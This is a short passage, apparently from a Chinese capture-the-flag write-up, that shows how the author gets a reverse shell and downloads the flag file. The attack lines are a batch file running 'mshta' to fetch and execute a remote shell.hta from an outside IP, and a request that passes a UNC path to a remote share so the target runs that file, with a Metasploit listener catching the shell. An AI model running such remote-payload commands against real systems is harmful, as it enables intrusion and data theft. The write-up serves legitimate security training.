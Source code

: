 1.bat 改成如下。

```
mshta http://162.14.121.186:9866/shell.hta
```

MSF监听开着。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/93b213e3-4585-47f7-9293-f5093238fd53.png?raw=true)

然后访问 /api?action=\\162.14.79.59\\public\\1.bat。

即可收到回弹。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/535d055b-a8fa-4ebe-80b5-13dcd81f18b7.png?raw=true)

download C:\\Th3Th1nsUW4nt.docx ./ 即可拿到flag文件。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/71890f07-ee0c-4783-ab4c-433f4766aadb.png?raw=true)

